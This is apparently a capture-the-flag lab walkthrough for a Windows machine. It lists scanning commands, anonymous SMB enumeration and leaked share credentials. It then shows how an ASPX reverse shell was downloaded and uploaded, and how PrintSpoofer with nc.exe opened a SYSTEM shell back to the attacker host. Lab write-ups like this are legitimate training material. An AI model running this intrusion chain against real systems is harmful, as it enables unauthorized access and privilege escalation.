





# Relevant

## Scanning

 ```bash
furious 10.10.56.135
nmap -sC -sV -p 80,135,445,139,3389 -n 10.10.56.135 -oN targeted
 ```



## smb

```bash
smbclient -L 10.10.56.135 -N
smbclient -N //10.10.56.135/nt4wrksv
```





```
Bill - Juw4nnaM4n420696969!$$$
Bob - !P@$$W0rD!123
```

```bash

#download a reverse shell 
wget https://raw.githubusercontent.com/borjmz/aspx-reverse-shell/master/shell.aspx

# we enter into the machine tu upload the shell
smbclient //10.10.106.15/nt4wrksv -U 'Bill%Juw4nnaM4n420696969!$$$'
put shell.aspx

# wait with nc
nc -lvp 4444
```

and we enter here http://10.10.106.15:49663/nt4wrksv/shell.aspx

```bat
type C:\Users\Bob\Desktop\user.txt
```

## Escalation privilege

ParrotOS (terminal 1)

```bash
wget https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer64.exe
cp /usr/share/windows-resources/binaries/nc.exe .
sudo impacket-smbserver a .
```

Parrot (Terminal 2)

```bash
# listening on port 5555
rlwrap nc -lvp 5555
```

Windows

```bat
cd C:\Windows\Temp
copy \\10.2.36.179\a\nc.exe .
copy \\10.2.36.179\a\PrintSpoofer64.exe .
PrintSpoofer64.exe -c "nc.exe 10.2.36.179 5555 -e cmd"
```





```bat
type C:\Users\Administrator\Desktop\root.txt
```


